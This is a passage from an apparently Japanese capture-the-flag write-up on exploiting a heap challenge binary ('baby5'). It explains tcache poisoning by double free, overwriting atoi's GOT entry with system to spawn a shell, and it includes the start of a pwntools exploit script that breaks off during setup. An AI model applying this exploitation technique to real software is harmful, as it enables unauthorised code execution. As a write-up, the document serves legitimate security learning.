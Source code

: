 ### tcache poisoning

libcが無事に判明したので後はいつもどおりtcache poisoningをするだけである。今回はDouble Freeして`atoi`のGOTを`system`のアドレスに書き換えて選択肢に`"/bin/sh"`を送り込んでシェルを起動した。

## Code

```python
from pwn import process, p64, u64, ELF


def _select(s, sel, c=b"> "):
    s.recvuntil(c)
    s.sendline(sel)


def add(s, size, data=b"junk"):
    _select(s, b"1")
    print("[+] add")
    s.recvuntil("size: ")
    s.sendline(str(size).encode())
    s.recvuntil("data: ")
    s.sendline(data)


def edit(s, idx, size, data):
    _select(s, b"2")
    print("[+] edit")
    s.recvuntil("item: ")
    s.sendline(str(idx).encode())
    s.recvuntil("size: ")
    s.sendline(str(size).encode())
    s.recvuntil("data: ")
    s.sendline(data)


def delete(s, idx):
    _select(s, b"3")
    print("[+] delete")
    s.recvuntil("item: ")
    s.sendline(str(idx).encode())


def show(s, idx):
    _select(s, b"4")
    print("[+] show")
    s.recvuntil("item: ")
    s.sendline(str(idx).encode())
    s.recvuntil("data: ")
    return s.recvline().rstrip()


if __name__ == '__main__':
    elf = ELF("./baby5")
    libc = ELF("./libc.so.6")  # 2.27

    atoi_got = elf.got["atoi"]
    ptr_list = 0x6020c0

    atoi_libc = libc.symbols["atoi"]
    system_libc = libc.symbols["system"]
    arena_top_libc = 0x3ebc40 + 0x60

```
